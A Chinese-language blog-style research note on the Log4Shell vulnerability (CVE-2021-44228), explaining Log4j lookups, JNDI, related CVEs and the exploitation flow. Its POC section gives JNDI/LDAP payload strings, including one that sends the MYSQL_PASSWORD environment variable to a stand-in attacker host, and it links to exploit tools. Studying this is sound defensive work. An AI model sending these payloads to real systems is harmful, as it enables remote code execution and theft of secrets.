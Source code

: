 +++
title = 'Log4Shell 漏洞'
date = 2024-05-31T16:04:27+08:00
draft = false
categories = ['漏洞研究']
tags = ['漏洞原理', 'Java', 'Log4j','框架漏洞']
+++

## 前置知识

|术语|描述|
|---|---|
|Log4j|存在漏洞的 Java 库|
|JndiLookup|Log4j 中的漏洞部分|
|Log4Shell|为攻击此漏洞而开发的 exploit|

### Lookup

Lookups 为在 Log4j 配置的任意位置添加值提供了一种方法。它们是实现 StrLookup 接口的一种特殊插件类型。

> [Log4j - Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
>
> [Log4j2 研究之lookup](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8)

### JNDI

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。

JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。

JNDI可访问的现有的目录及服务有：
DNS、XNam 、Novell目录服务、LDAP(Lightweight Directory Access Protocol轻型目录访问协议)、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、RMI、DSML v1&v2、NIS。

> [Java安全之JNDI注入](https://www.cnblogs.com/nice0e3/p/13958047.html)
>
> [JNDI到底是什么？](https://blog.csdn.net/wn084/article/details/80729230)
>
> [深入理解JNDI注入与Java反序列化漏洞利用](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)

### 相关 CVE

| CVE编号 | 漏洞类型 | 受影响的Log4j版本 | 默认配置下可被利用 |
| --- | --- | --- | --- |
| CVE-2021-44228 | 远程代码执行(RCE) | 2.0至2.14.1 | 是 |
| CVE-2021-45046 | 拒绝服务(DoS)和远程代码执行(RCE) | 2.0至2.15.0 | 否 |
| CVE-2021-4104 | 远程代码执行(RCE) | 1.2* | 否 |
| CVE-2021-45105 | 拒绝服务(DoS) | 2.0-beta9至2.16.0 | 否 |
| CVE-2021-44832 | 远程代码执行(RCE) | 2.0-beta7至2.17.0（不包括安全修复版本2.3.2和2.12.4） | 否 |

> <https://github.com/pentesterland/Log4Shell>

## 远程命令执行漏洞 CVE-2021-44228（Log4Shell）

### 受影响版本

- Apache Log4j 2.x<=2.14.1

### 受影响组件

- Spring-Boot-strater-log4j2
- Apache Struts2
- Apache Solr
- Apache Flink
- Apache Druid
- ElasticSearch
- Flume
- Dubbo
- Redis
- Logstash
- Kafka
- VMvare

### 漏洞说明

> [史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)

日志在打印时当遇到 `${` 后，Interpolator 类以 `:` 号作为分割，将表达式内容分割成两部分，前面部分作为 prefix，后面部分作为 key。然后通过 prefix 去找对应的 lookup，通过对应的 lookup 实例调用 lookup 方法，最后将 key 作为参数带入执行。

主要使用 ldap 来构造 payload：

```txt
${jndi:ldap://xxx.xxx.xxx.xxx/exp}
```

最终效果就是通过 jndi 注入，借助 ldap 服务来下载执行恶意 payload，从而执行命令，整个利用流程如图：

![20240531153822](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240531153822.png)

整个利用流程分两步：

第一步：向目标发送指定 payload，目标对 payload 进行解析执行，然后会通过 ldap 链接远程服务，当 ldap 服务收到请求之后，将请求进行重定向到恶意 java class 的地址。

第二步：目标服务器收到重定向请求之后，下载恶意 class 并执行其中的代码，从而执行系统命令。

### POC

DNSLog

```txt
${jndi:ldap://xxx.dnslog.cn/exp}
```

嵌套语法获取环境变量

```txt
${jndi:ldap://www.attacker.com:1389/${env:MYSQL_PASSWORD}}
```

### EXP

- Burpsuite 插件：[Log4Shell Everywhere](https://portswigger.net/bappstore/186be35f6e0d418eb1f6ecf1cc66a74d)
- [Apache Log4j Remote Code Execution](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

### 流量特征

见 POC

